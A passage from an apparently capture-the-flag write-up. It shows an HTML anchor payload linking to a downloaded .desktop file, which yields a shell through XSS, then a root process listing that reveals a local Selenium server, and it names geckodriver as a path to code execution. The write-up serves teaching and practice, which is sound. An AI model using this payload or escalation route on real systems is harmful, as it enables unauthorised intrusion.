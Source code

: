 We know from the source that it gets downloaded in `/opt/userland` and we retrieve the random file name with two ways as well.

1. Downloading the file locally using the gui, we need to create a writeable /opt/userland in our local system)
2. Using the Web API to upload the file and the filename will be in the response

In this case our payload will be:

```html
<a className="an" open href="file:///opt/userland/5b208f3cb06c3d4a44afa8c948f9aa35.desktop">test</a>
```

Once we make sure the payload is hosted/downloaded we can send the HTML payload and wait until we get a shell.

![A screenshot that shows that our XSS payload is rendered](/assets/img/stack-the-flags-2022/payload-xss-rendered.png)

And we get a shell back!

![A screenshot where we got a shell back as john](/assets/img/stack-the-flags-2022/user-flag-john.png)

### Privilege Escalation

The first thing I’ve checked is the running processes as `root`. In this case, I’ve found a Selenium server running as root locally.

```bash
root         623       1  0 14:12 ?        00:00:00 /usr/sbin/cron -f -P
root         638     623  0 14:12 ?        00:00:00  \_ /usr/sbin/CRON -f -P
root         641     638  0 14:12 ?        00:00:00      \_ /bin/sh -c java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
root         643     641  0 14:12 ?        00:00:31          \_ java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
```

The idea behind exploiting Selenium is to create a session that executes code. In simpler words, we can achieve RCE through geckodriver.
